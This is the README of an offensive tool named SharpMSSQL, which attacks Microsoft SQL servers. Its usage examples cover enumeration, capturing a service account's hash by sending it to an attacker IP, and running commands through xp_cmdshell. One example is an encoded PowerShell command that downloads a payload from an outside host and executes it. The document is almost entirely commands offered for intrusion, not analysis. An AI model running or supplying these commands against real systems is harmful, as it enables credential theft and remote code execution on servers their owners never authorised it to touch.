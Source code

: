 # SharpMSSQL
## Purpose
Just for enumeration and exploitation of some vulns
## Usage
```
.\SharpMSSQL.exe [hostname] [database] [operation] <options>
```
## Example for enum
```
.\SharpMSSQL.exe appsrv01 master enum
```

## Example for grab svc hash
```
.\SharpMSSQL.exe appsrv01 master gethash 192.168.45.195
```

## Example for execute command with xp_cmdshell
```
.\SharpMSSQL.exe appsrv01 master cmd whoami
.\SharpMSSQL.exe dc01 master cmd 'powershell.exe -e aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMgAxADMANwAuADIAMQAzADcALgAyADEAMwA3AC4AMgAxADMANwAvAHAAYQB5AGwAbwBhAGQALgB0AHgAdAAnACkA'
```


# Supported opertations
- enum
- gethash
- cmd